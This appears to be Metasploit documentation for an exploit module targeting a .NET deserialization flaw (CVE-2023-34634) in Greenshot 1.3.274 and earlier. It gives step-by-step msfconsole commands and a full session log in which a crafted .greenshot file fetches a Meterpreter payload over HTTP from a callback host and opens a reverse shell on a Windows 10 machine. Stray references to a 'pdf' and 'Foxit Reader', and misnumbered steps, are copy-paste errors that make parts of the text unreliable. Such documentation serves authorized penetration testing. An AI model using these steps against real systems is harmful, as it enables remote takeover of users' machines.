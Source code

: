 ## Description

There exists a .NET deserialization vulnerability in Greenshot version 1.3.274
and below.  The deserialization allows the execution of commands when a user opens
a Greenshot file.  The commands execute under the same permissions as the Greenshot
service.  Typically this is as the logged in user.

## Vulnerable Application

[Greenshot v1.3.274](https://github.com/greenshot/greenshot/releases/download/v1.3.274/Greenshot-INSTALLER-1.3.274-UNSTABLE.exe) and earlier

## Verification Steps

1. `./msfconsole`
2. `set payload cmd/windows/http/x64/meterpreter/reverse_tcp`
3. `set FETCH_SRVHOST <callback ip>`
4. `set FETCH_WRITABLE_DIR %TEMP%`
4. `set LHOST <callback ip>`
5. `set DisablePayloadhandler false`
6. `set wfsdelay 600`
7. `run`
9. Copy pdf over to target, ensuring that the `.greenshot` extension is preserved and open it.

Note: The target machine running Foxit Reader will need network access to the system hosting the exe.

## Scenarios

### Greenshot v1.3.274 running on Windows 10 Pro x64 2004

```
msf6 > use exploit/windows/fileformat/greenshot_deserialize_cve_2023_34634
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > set FETCH_SRVHOST 10.5.135.201
FETCH_SRVHOST => 10.5.135.201
msf6 exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > set LHOST 10.5.135.201
LHOST => 10.5.135.201
msf6 exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > set FETCH_WRITABLE_DIR %TEMP%
FETCH_WRITABLE_DIR => %TEMP%
msf6 exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > set DisablePayloadHandler false
DisablePayloadHandler => false
msf6 exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > set wfsdelay 600
wfsdelay => 600
msf6 exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > show options

Module options (exploit/windows/fileformat/greenshot_deserialize_cve_2023_34634):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME                   no        The file name.
   PNG_FILE                   no        PNG file to use


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      tsuAqVhW         no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       10.5.135.201     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/fileformat/greenshot_deserialize_cve_2023_34634) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[+] QsMBQrLmW.greenshot stored at /home/tmoose/.msf4/local/QsMBQrLmW.greenshot
[*] Sending stage (200774 bytes) to 10.5.132.130
[*] Meterpreter session 1 opened (10.5.135.201:4444 -> 10.5.132.130:50221) at 2023-08-03 18:27:21 -0500

meterpreter > sysinfo
Computer        : DESKTOP-KAI0M8D
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-KAI0M8D\msfuser
meterpreter > 

```

